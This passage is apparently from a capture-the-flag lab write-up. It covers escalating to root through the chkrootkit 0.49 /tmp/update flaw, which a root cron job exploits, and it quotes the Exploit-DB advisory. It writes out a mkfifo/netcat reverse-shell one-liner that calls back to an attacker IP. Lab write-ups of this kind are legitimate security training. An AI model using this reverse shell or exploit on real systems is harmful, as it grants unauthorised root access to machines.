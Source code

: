 ```
Searching for Fu rootkit default files... nothing found
Searching for ESRK rootkit default files... nothing found
Searching for rootedoor... nothing found
Searching for ENYELKM rootkit default files... nothing found
Searching for common ssh-scanners default files... nothing found
Searching for suspect PHP files...
```

So it's searching for viruses each minute as `root` (because *amrois* doesn't have any cron generating the reports), and when it reaches 10 minutes `amrois` deletes everything in `/report`.

### Check Crons with PSPY

To verify which script is being run by *root*, let's upload `pspy`:

{{< img "pspy.png" "PSPY32" "border" >}}

### Chkrootkit 0.49 - Local Privilege Escalation

So *root* is  running `/root/vulnScan.sh` and that script runs `chkrootkit`. There's a privilege escalation [vulnerability](https://www.exploit-db.com/exploits/33899) in it that executes `/tmp/update` as *root*.

```
Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.

If an attacker knows you are periodically running chkrootkit (like in
cron.daily) and has write access to /tmp (not mounted noexec), he may
easily take advantage of this.
```

So... creating a file called `update` in `/tmp` with a reverse shell and giving it execution permissions:

```bash
echo -e "#!/bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 3333 >/tmp/f" > /tmp/update
chmod +x /tmp/update
```

And waiting with netcat listening, grants us:

{{< img "root.png" "Rooted!" "border" >}}

Root! 🔓️
